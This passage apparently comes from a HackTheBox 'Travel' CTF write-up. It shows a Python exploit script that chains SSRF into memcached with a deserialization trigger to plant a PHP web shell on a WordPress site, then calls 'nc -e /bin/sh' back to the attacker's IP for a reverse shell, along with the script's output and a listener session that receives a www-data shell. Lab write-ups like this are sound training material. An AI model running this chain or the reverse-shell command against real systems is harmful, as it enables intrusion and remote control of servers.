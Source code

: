 ```py
ssrfURL = url+"awesome-rss/?debug=yes&custom_feed_url="+payload

x = requests.get(ssrfURL)
print(x.status_code)

print "Stage 2: Trigger Deserilzation"
x = requests.get(url+"awesome-rss/")
print(x.status_code)

payloadURL = url + "wp-content/themes/twentytwenty/logs/"+file
while True:
    print payloadURL
    x = requests.get(payloadURL)
    print(x.status_code)
    if x.status_code == 200:
        break;

print "Stage 3: Get a Shell"

rceURL = payloadURL+"?cmd=nc -e /bin/sh "+HOST+" "+PORT
print rceURL
x = requests.get(rceURL)
```

Then we of course run the exploit:
```bash
python exploit.py                                                                                                
Stage 1: SSRF in memcached
200
Stage 2: Trigger Deserilzation
200
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/shell.php
200
Stage 3: Get a Shell
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/shell.php?cmd=nc -e /bin/sh 10.10.14.14 1234
```
## Shell as www-data
After we run this we get a connection back on our host machine!
```
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/travel]
└──╼ $ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.189] 45856
whoami
www-data
```
Unfortunately `python` is not installed on the box so we cant upgrade our shell into a fully interactive one.
